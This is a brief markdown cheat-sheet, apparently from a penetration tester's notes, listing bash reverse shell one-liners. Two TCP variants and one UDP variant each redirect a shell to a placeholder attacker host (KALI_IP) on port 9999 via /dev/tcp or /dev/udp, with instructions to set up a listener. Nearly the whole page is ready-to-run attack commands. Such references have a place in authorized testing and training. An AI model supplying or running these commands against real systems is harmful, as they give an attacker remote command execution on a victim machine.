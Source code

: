 ```yaml
---
title: "Bash Reverse Shells"
tags: [shells/reverse/bash]
category: [reverse-shells, linux]
share: true
date: 2024-12-15
---
```


## Bash TCP Reverse Shell
These TCP reverse shells will attempt to make a connection to your KALI machine using port 9999. Make sure to setup a TCP Listener.

```bash
sh -i >& /dev/tcp/KALI_IP/9999 0>&1
```

```bash
0<&196;exec 196<>/dev/tcp/KALI_IP/9999; sh <&196 >&196 2>&196
```
## Bash UDP Reverse Shell
The UDP shells will attempt to make a connection to your KALI machine using port 9999. Make sure to setup a UDP Listener.

```bash
sh -i >& /dev/udp/KALI_IP/9999 0>&1
```

